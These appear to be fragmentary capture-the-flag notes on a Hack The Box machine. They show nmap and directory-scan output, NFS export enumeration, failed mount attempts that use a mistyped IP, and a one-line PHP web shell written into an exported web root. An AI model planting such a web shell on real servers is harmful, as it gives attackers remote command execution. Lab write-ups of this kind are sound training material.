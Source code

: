 └─$ nmap 10.10.11.191      
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-20 12:32 EST
Nmap scan report for 10.10.11.191
Host is up (0.27s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
111/tcp  open     rpcbind
2049/tcp open     nfs
3077/tcp filtered orbix-loc-ssl
5566/tcp filtered westec-connect
5678/tcp filtered rrac
7402/tcp filtered rtps-dd-mt

[####################] - 0s     30000/30000   0/s     http://10.10.11.191/images/ => Directory listing (add -e to scan)
[####################] - 0s     30000/30000   0/s     http://10.10.11.191/js/ => Directory listing (add -e to scan)
[####################] - 0s     30000/30000   0/s     http://10.10.11.191/css/ => Directory listing (add -e to scan)
403      GET        9l       28w      277c http://10.10.11.191/server-status

![](20230221130100.png)  

```
┌──(kali㉿kali)-[~/drupwn]
└─$ showmount -e 10.10.11.191       
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *

```

unable to mount

```
┌──(root㉿kali)-[/home/kali/drupwn]
└─# mount -t nfs 10.10.111.191:/home/ross /mnt
^C
                                                                                                                    
┌──(root㉿kali)-[/home/kali/drupwn]
└─# mount -t nfs 10.10.111.191:/var/www/html /mnt
^C
                                                   
```

php command line

```
dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' 
<?php
  system($_REQUEST[cmd]);
?>
dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/0xdf.php


```

https://0xdf.gitlab.io/2022/11/21/htb-squashed.html